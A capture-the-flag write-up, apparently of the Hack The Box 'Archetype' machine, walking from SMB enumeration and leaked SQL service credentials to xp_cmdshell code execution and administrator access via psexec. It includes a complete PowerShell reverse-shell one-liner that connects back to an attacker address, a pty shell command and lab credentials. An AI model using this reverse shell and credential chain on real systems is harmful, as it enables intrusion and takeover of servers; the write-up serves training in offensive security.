






<h1><p align="center"> Archetype </p></h1>

## Enumeration First ...

So I began with initial nmap scan and found msrpc, netbios-ssn, microsoft-ds & ms-sql-s services running on the target machine.

```bash 
$ sudo nmap -T4 -sC -sS 10.10.10.27 >> nmap.out 
```
<p align="center"></p>

Since it has smb(microsoft-ds) port open I used smbclient to list out all the available shares as anonymous user.

```bash 
$ sudo smbclient -N -L 10.10.10.27
```
<p align="center"></p> 

There was only single share 'backups' accessible with no passwords. Logged with backups share and got a  
'prod.dtsConfig' file.

<p align="center"></p> 

The 'prod.dtsConfig' file leaked the username and password for a user ARCHETYPE\sql_svc. 

```config
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>  
```

## Lets get Foothold !!

Now lets try to get in with obtained credentials. After some research I found out it could be done using impacket-mssqlclient. Now lets check whether we are working as a sysadmin (privileged user) or not.
```bash
$ /usr/bin/impacket-mssqlclient ARCHETYPE\sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth 
```
<p align="center"></p> 

This will allow us to enable xp_cmdshell and gain RCE on the host. Now since we know we can execute code on target lets try to get a reverse shell.
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.xx.x",8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
and upload this shell script to target from attacing machine. Start netcat listner on attacking machine to listen.
And Boom!! we have a reverse shell. Stabllize the shell 
```bash
# python3 -c "import pty;pty.spawn("/bin/bash")"
```

Now lets get the user.txt flag on user\desktop and print it.

<p align="center"></p> 

## Time to Privsec -- 

Check for Terminal/Powershell history to know what is being used mostly by user.
```cmd 
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
``` 
Reveals that backup share was mounted with admin privileges.

```bash
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:MEGACORP_4dm1n\!\!@10.10.10.27
```
And Bam!! we have Administrator Privileges.

Move to Desktop and print out root.txt file.

```cmd
C:\WINDOWS\system32> type \user\Administrator\desktop\32 root.txt
```
<p align="center"></p>

**With that We Owned the Root.**

